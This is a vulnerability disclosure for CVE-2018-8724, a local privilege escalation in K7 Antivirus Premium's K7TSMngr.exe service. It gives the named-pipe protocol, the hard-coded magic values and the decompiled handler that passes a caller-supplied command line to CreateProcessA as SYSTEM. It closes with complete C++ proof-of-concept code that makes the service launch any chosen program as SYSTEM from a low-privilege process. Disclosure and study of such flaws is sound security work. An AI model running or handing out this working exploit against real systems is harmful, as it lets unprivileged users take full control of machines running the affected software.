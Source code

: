 # CVE-2018-8724

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 16.0.0.0* 
* **Component**: *K7TSMngr.exe 16.0.0.70*
  * SHA256: E6655EBC79644E7DB6FC36B2D98DE88A9635F47B3ADF1D834FD357D5EA3E15A6
  
# Summary

This is a logical flaw that will allows the creation of SYSTEM integrity processes via the pipe handler. Therefore a LOW privilege process can simply spawn up a SYSTEM process achieving LPE.

# K7TSMngr.exe Pipe Handler Background
This background piece will help understand this and will be referenced by other vulnerabilities identified in this service.

In the K7TSMngr.exe service there is an exposed pipe interface *\\\\.\\pipe\\K7TSMngrService1* which allows lower privileged processes to communicate with the K7TSMngr service running as SYSTEM, requesting certain tasks to be performed. The pipe is created (Kernel32!CreateNamedPipeA) and connected to (Kernel32!ConnectNamePipe) in the function tarting 0x409D80 (sub_409D80).

When a connection is made, the function handler routine (sub_4095A0) is called reads the input data in 2 parts:
* It reads a 28 (0x1c) byte header first which includes:
  * A magic value which you need to provide to *authenticate* with the service
  * Id of the function/service to invoke
  * Size of the input buffer
  * Size of another buffer (not 100%)
* Then it reads the actual data into newly allocated heap buffer.

Once it has all the data, it invokes *sub_409480* which enumeates through a list of pipe functions listed at 0x445B14. This list is a series of hard coded structures, each with the entry:

```C++
typedef struct _FUNCTION_ENTRY
{
    DWORD dwFunctionId;
    PVOID pfnFunction;
    DWORD dwNotSure;
} FUNCTION_ENTRY, *PFUNCTION_ENTRY
```

There are 23 functions that can be invoked, quite a few of which do interesting actions, or have vulnerabilities in them (see other CVEs).

# Details
Following on from the background piece above, if the handler is connected to from a LOW integrity process and called with function id 0x10015, it will invoke the function sub_409CA0.

The following snippet of code is from the HexRays decompiler illustrating what the function does.

```C++
//
// Structure Definitions
//
typedef struct _unk_10015
{
    DWORD dwInSize;
    DWORD dwMagic;
    DWORD dwFlags;
    DWORD dwTimeToWait
    DWORD field_10;
    CHAR szCommandLine[1024];
    CHAR szCurrentDirectory[260];
} unk_10015;


// Handler for 0x10015, sub_409CA0 or CreateProcessWrapper_2 as I named it in my view.
unk_10015 *__stdcall CreateProcessWrapper_2(int dwInSize, unk_10015 *pInput, int dwOutSize, int pOutput, int a5)
{
    if ( (unsigned int)dwInSize < 0x518 )
        return 0;
    if ( IsBadReadPtr(pInput, 0x518u) || pInput->dwInSize != 0x518 || pInput->dwMagic != 0x4B37544B )
        return 0;
    hProcess = GetProcessHeap();
    pData = (unk_10015 *)HeapAlloc(hProcess, 0, 0x518u);
    if ( !pData )
        return 0;

    // We control all of pInput, and thus pData.
    qmemcpy(pData, pInput, sizeof(unk_10015));
    dwFlags = pData->dwFlags;
    if ( dwFlags & 1 )
        // Details of this routine below... but generally calls through to a CreateProcessA call
        // with information passed to it from the calling process.
        CreateProcessWrapper(pData->szCommandLine, dwFlags, pData->szCurrentDirectory);
    
    // ...
    return result;
}


signed int __usercall CreateProcessWrapper@<eax>(CHAR *lpCommandLine_1@<eax>, char dwFlags, const CHAR *lpCurrentDirectory)
{
    // ... Locals ...

    bSuccess = 0;
    lpCommandLine = lpCommandLine_1;

    // Note: We control dwFlags so we can easily enter this
    if ( g_bFlag_WantNotZero_4494BC || !(dwFlags & 8) )
    {
        lpStartupInfo = (STARTUPINFOA *)operator new(0x44u);
        pProcInfo = (PROCESS_INFORMATION *)operator new(0x10u);
        lpProcINfo = pProcInfo;
        if ( lpStartupInfo )
        {
            if ( pProcInfo )
            {
                // ... and straight through to a create process call
                memset(lpStartupInfo, 0, 0x44u);
                lpStartupInfo->cb = 68;
                bSuccess = CreateProcessA(0, lpCommandLine, 0, 0, 0, 0x20u, 0, lpCurrentDirectory, lpStartupInfo, lpProcINfo);

    // ...

    return result;
}

```


# PoC Code
This PoC code will cause the K7TSMngr service to call Kernel32!CreateProcessA on the string provided to it on the command line.


```C++
// Includes
#include <Windows.h>
#include <stdio.h>


// unk1 - named used in IDA so kept for consistency. This is really the header of the pipe message
// which needs to be the first 0x1C bytes of every pipe message.
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwControlCode;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

// Again, name from IDA. This is the structure of the pipe message required for the 0x1
typedef struct _unk_10015
{
	DWORD dwInSize;
	DWORD dwMagic;
	DWORD dwFlags;
	DWORD dwTimeToWait;
	DWORD dwDontCare;
	CHAR szCommandLine[1024];
	CHAR szCurrentDir[260];
} unk_10015;


int main(int argc, char** argv)
{
	if (argc != 2)
	{
		printf("Usage: <AppToRunAsSystem>\r\n");
		return 0;
	}

	HANDLE hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

	unk1 u1 = { 0 };
    // The following 3 values are hard coded as they are hard coded checks at 0x4095FA
    u1.dwMagic = 0x4B375453;
	u1.dwControlCode = 0x1010;
	u1.dwInSize = 28;

    // Function to call
	u1.dwFunctionId = 0x10015;
	u1.dwInputDataSize = 0x518;
	u1.dwOutputDataSize = 0x100;	

    // Send the header
	DWORD dwBytesWritten = 0;
	if (!WriteFile(hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

    // Fill in and send over the data packet to the service.
	unk_10015 apiCall = { 0 };
	apiCall.dwInSize = 0x518;
	apiCall.dwMagic = 0x4B37544B;
	apiCall.dwFlags = 1; // We don't want 8 set
	strncpy_s(apiCall.szCommandLine, argv[1], 1024);
	strncpy_s(apiCall.szCurrentDir, "C:\\", 260);

	if (!WriteFile(hPipe, &apiCall, sizeof(apiCall), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

    return 0;
}


```
